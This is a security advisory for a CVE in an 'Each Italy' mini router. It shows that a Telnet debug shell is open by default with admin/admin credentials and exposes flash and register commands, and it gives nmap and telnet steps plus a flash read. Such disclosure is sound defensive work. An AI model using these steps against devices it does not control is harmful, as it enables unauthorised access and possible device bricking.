

# CVE-2025-57428 - Telnet debug interface enabled by default allows low-level flash/register access

## Affected Product
- Vendor/Brand: Each Italy
- Device: Wireless Mini Router WIRELESS-N 300M
- Firmware: v28K.MiniRouter.20190211

## Summary

This device exposes a Telnet debug interface (enabled by default on port 23) and accepts admin credentials (`admin`/`admin` by default). After authentication the shell provides direct access to low-level commands (notably `spi` and `reg`), which may lead to arbitrary firmware corruption, device bricking and loss of functionality or security configuration.
<br/>
<br/>
<br/>

## Proof of Concept
> **Note:** I intentionally omit commands that perform destructive writes. The PoC below confirms existence and accessibility of the interface without providing a ready weaponized exploit.

1. Scan the device on the LAN:

   ```bash
   nmap -p 23 <device-ip>
   ```

   Result: port 23 (telnet) shows `open`.

2. Connect via Telnet and authenticate (default credentials):

   ```bash
   telnet <device-ip>
   # Login as: admin
   # Password: admin
   ```

   After login, a debug prompt is presented `CMD>`.

3. List available commands:

   ```bash
   CMD>help
   ```

   The help output shows the following menus:

   ```bash
   cfg         net         os
   ```

   Enter in the `os` menu:

   ```bash
   CMD>os
   ```
   
   List available commands again:

   ```bash
   OS>help
   ```

   This time the help output shows the following commands:

   ```bash
   thread      mem         spi         reg         cpuload     cpubusy     event
   ```

   Using `spi` shows `spi <rd/wr/er> <addr> [len]`.

4. Read flash memory:

   ```bash
   OS>spi rd 0x000fd0f0 16
   ```

   This returns a hex dump of the flash region:

   ```bash
   4f30650a 938f56fa 1b663a19 e316d824
   ```

   This confirms that the command works and the shell has low-level access.
   The write command (`spi wr`) and the erase command (`spi er`), as well as the `reg` commands, are also executable.



Observations:
   - Changing the admin password via the web interface also changes Telnet credentials, indicating shared credentials.
   - Telnet remains enabled by default after initial setup.

## Vendor Communication
Attempts to find any security contact or support channel of the original vendor were unsuccessful. The product appears to be a rebranded device of unknown origin.

## Disclaimer
This information is provided for educational and defensive purposes only. The author takes no responsibility for any misuse of this information.